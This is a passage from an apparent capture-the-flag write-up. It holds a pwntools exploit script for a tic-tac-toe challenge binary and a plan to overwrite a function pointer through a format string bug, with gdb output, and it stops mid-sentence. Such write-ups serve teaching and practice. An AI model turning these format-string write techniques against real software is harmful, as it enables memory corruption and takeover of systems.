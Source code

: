 ### Exploit code:

```  
#!/usr/bin/env python  
from pwn import *

elf = context.binary = ELF('./ttt',checksec=False)

if args.REMOTE:  
   s1 = ssh("ttt","challenges2.hexionteam.com",3004,"hexctf")  
   proc = s1.process('./ttt')  
else:  
   proc = process(elf.path)

"""  
============  
Attack plan:  
============  
Use format string bug in the following code:

   puts("Please enter your name: ");  
   scanf("%24s", name);  
   getchar();  
   snprintf(message, 100, "Welcome %s!\n", name);

To change the value of the function the AI uses to decide its move:

   logic_func DIFFICULTY = IMPOSSIBLE;

Basically we just change the function to a "return 0;".

Testing it out with gdb:

   pwndbg> x/gx 0x603010  
   0x603010 <DIFFICULTY>:       0x0000000000401cd5  
   pwndbg> x/2i 0x0000000000401cd5  
      0x401cd5 <IMPOSSIBLE>:	push   rbp  
      0x401cd6 <IMPOSSIBLE+1>:	mov    rbp,rsp  
   pwndbg> x/65i 0x401d91  
      0x401d91 <IMPOSSIBLE+188>:	mov    eax,0x0  
      0x401d96 <IMPOSSIBLE+193>:	jmp    0x401d9c <IMPOSSIBLE+199>  
      0x401d98 <IMPOSSIBLE+195>:	movsx  eax,BYTE PTR [rbp-0xd]  
      0x401d9c <IMPOSSIBLE+199>:	leave    
      0x401d9d <IMPOSSIBLE+200>:	ret      
   pwndbg> set *(long *)0x603010=0x401d91

And then playing against the AI, we find that if we make the following moves:

   ,---,---,---,  
   |   |   |   |  
   |---+---+---|  
   |   |   |   |  
   |---+---+---|  
   | 3 | 2 | 1 |  
   '---'---'---'

Its doesnt make a move agaisnt us.

So, we just need to change the value at 0x603010, from 0x401cd5 to 0x401d91.  
This is just a write of two bytes, which we can do easily with out format
string bug.  
We just need to know our input starts at positional argument and to remember
that  
```